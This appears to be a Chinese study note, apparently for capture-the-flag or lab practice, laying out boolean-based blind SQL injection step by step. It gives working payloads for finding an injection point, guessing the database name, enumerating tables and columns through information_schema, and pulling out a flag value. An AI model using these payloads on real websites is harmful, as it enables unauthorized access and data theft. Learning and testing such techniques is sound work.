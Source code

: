 [知识来源](https://blog.csdn.net/weixin_40709439/article/details/81355856)
**步骤：**

[TOC]

## 1. 查看是否存在注入点

```
?id=1 返回ok
?id=1' 无返回
?id=1 union select 1,2,3
```

则存在注入点，且是三个字段

也可以通过burp查看成功或者失败时的返回的content-length，来判断。

这里需要一些[分流]([一篇文章带你深入理解 SQL 盲注 - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/170626#h2-13))的思想。最常见的是if语句，这个时候就可以将注入语句放到expr1，需要构造第三个返回值为false（可以用错误的sql查询语句,但是不能用(1=2)这种东西，猜测可能是因为他会直接返回(1=2)->空数组）

> if(expr1,expr2,expr3)
> expr1 的值为 TRUE，则返回值为 expr2 
> expr1 的值为 FALSE，则返回值为 expr3

## 2. 猜解长度

用二分法来猜解快

```
?id=1 and length(database())>10
?id=1 and if(length(database())>10,1,(select 1 union select 2))
```

## 3. 猜解字段名
```
?id=1 and ascii(substr(database(),1,1)) > 114
?id=1 and if(ascii(substr(database(),1,1)) > 114,1,(select 1 union select 2))
```

## 4.猜测数据库中表的数量

```
(select count(table_name) from information_schema.tables where table_schema=database())=5
```

## 5. 猜测表名的长度

```
(select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=1
```

## 6.猜测第一个表的表名

```
ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97
```

## 7. 猜测users表的字段数

```
(select count(column_name) from information_schema.columns where table_name='users')=1
```

## 8. 猜测users表每一列的长度

```
length(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=1
```

## 9. 猜测column的名字

```
ascii(substr((select column_name from information_schema.columns where table_name='users' limit 3,1),1,1))>97
```

## 10. 查找最终内容

```
ascii(substr((select flag from security.flag limit 0,1),1,1))>97
```

## 11. 编写脚本

[bool_injection.py](../python-scripts/bool_injection.py)


